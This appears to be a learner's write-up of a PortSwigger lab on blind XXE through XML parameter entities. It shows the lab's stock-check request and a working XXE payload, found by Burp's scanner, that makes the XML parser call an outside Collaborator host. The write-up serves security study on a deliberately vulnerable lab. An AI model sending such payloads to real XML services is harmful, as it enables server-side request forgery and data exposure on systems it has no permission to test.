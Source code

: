 # [Lab: Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

## Lab

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Analysis

check stock request:

```http
POST /product/stock HTTP/1.1
Content-Length: 107
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

attack like lab 3 will return error: `"Entities are not allowed for security reasons"`

## tools

- burpsuite scanner: detected `Issue: External service interaction (HTTP)`

  - request

  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone='no'?>
  <!DOCTYPE stockcheck [<!ENTITY % d1964 SYSTEM "http://adryohq4xmilalscvl1acdafw62x1lr9qxho4es3.oastify.com">%d1964; ]>
  <stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
  </stockCheck>
  ```

## Solutions

above detected request
